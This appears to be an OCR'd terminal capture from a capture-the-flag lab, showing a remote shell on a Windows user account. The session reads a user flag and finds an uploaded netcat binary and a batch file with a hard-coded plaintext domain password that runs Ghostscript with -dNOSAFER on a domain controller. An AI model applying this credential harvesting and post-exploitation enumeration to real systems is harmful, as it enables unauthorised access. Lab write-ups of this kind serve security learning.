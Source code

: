 C:\Users\drbrown.HOSPITAL>cd Desktop
cd Desktop

C:\Users\drbrown.HOSPITAL\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Desktop

10/26/2023  11:24 PM    <DIR>          .
10/26/2023  11:24 PM    <DIR>          ..
12/25/2023  09:15 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,100,231,168 bytes free

C:\Users\drbrown.HOSPITAL\Desktop>type user.txt
type user.txt
11835c5c47fbe9407b35d5c4a8c540dc

C:\Users\drbrown.HOSPITAL\Desktop>cd ../
cd ../

C:\Users\drbrown.HOSPITAL>cd Documents
cd Documents

C:\Users\drbrown.HOSPITAL\Documents>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

12/25/2023  11:34 PM    <DIR>          .
12/25/2023  11:34 PM    <DIR>          ..
10/23/2023  02:33 PM               373 copy.bat
10/23/2023  02:33 PM               373 ghostscript.bat
12/25/2023  11:31 PM            45,272 nc.exe
               3 File(s)         46,018 bytes
               2 Dir(s)   4,100,231,168 bytes free

C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>
